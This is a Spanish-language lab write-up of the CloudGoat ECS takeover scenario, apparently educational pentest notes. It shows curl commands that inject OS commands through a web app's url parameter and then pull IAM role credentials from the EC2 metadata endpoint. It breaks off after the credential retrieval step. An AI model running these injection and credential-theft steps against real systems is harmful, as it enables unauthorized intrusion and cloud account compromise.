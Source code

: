 ```yaml
---
description: 'Lab: CloudGoat'
---
```


# ECS\_takeover

## Laboratorio

En este escenario se empieza realizando un pentesting de caja negra contra un aplicativo web alojado en una instancia EC2. Luego de identificar una vulnerabilidad que permite RCE sobre el aplicativo web se abusará del servicio de metadatos de la instancia y del docker. Para posteriormente, comprometer una de las tareas que está corriendo en un cluster al que se tiene acceso por medio de la instancia comprometida.

{% hint style="danger" %}
El desarrollo de este ejercicio puede llegar a consumir recursos económicos dentro de las cuentas de AWS.
{% endhint %}

{% embed url="https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/ecs_takeover" %}

<mark style="color:green;">**Objetivo**</mark>: Obtenga acceso al contenedor "bóveda" y recupere la bandera.

### Configuración inicial

Checar instalación de CloudGoad en:

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}

Lanzar el escenario con:

```bash
./cloudgoat.py create ecs_takeover
```

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

### Explotación

Al finalizar la preparación del laboratorio se arroja un sito web: [http://ec2-54-236-32-165.compute-1.amazonaws.com/](http://ec2-54-236-32-165.compute-1.amazonaws.com/) el cual contiene un aplicativo como el siguiente:

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Luego de ingresar una URL válida como www.google.com se identificó que se puede agregar un parámetro URL sobre el enlace original, y además se ve como el aplicativo web incrusta el código HTML sobre el DOM de la página.

<figure><img src="../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

Realizando una inyección de parámetros se observó que el aplicativo responde comandos de sistema operativo:

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bls+-l"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1) (6).png" alt=""><figcaption></figcaption></figure>

Haciendo uso de la vulnerabilidad de code injection se puede observar que el aplicativo está corriendo bajo el usuario de root:

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bwhoami"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

Usando el comando env podemos listas las variables de entorno del sito:

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

Listando las interfaces de red existentes se encontró una interfaz de red docker, lo cual indica el uso de contenedores

```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bip+a+show"
```

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

Listando los contenedores con `docker ps -a` se encontraron los siguientes contenedores:

<figure><img src="../../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

| Contenedor                                                                                 | ID           |
| ------------------------------------------------------------------------------------------ | ------------ |
| ecs-cg-ecs-takeover-ecs\_takeover\_cgidjozev9f9bv-vulnsite-1-vulnsite-bcf8beafe588ccca8a01 | 7bfa57af37b6 |
| ecs-cg-ecs-takeover-ecs\_takeover\_cgidjozev9f9bv-privd-1-privd-a2bfc681b6dcf9d55500       | 64ca7db98975 |
| ecs-agent                                                                                  | aaead8b98f5f |

Se puede generar una rever shell en el sitio y tener mayores capacidades, para fines didácticos solo se va a consumir los metadatos del rol de la instancias ec2 y se procedesa a usar las credenciales de acceso

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bcurl+http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bcurl+http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ecs-takeover-ecs_takeover_cgidjozev9f9bv-ecs-agent"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (25) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>







